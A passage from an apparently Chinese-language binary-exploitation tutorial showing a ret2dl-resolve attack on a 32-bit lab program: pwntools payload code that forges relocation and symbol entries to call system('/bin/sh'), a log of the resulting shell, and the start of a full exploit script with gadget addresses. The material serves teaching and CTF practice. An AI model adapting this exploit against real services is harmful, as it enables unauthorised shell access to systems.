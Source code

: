 ```python
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))

io.sendline(payload_7)
io.interactive()
```

Bingo!!!

```text
$ python2 exp.py
[*] '/home/firmy/Desktop/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

这题是 32 位程序，在 64 位下会有一些变化，比如说：

- 64 位程序一般情况下使用寄存器传参，但给 `_dl_runtime_resolve` 传参时使用栈
- `_dl_runtime_resolve` 函数的第二个参数 `reloc_index` 由偏移变为了索引。
- `_dl_fixup` 函数中，在伪造 fake_sym 后，可能会造成崩溃，需要将 `link_map+0x1c8` 地址上的值置零

具体的以后遇到再说。

如果觉得手工构造太麻烦，有一个工具 [roputils](https://github.com/inaz2/roputils) 可以简化此过程，感兴趣的同学可以自行尝试。

## 漏洞利用

完整的 exp 如下：

```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
```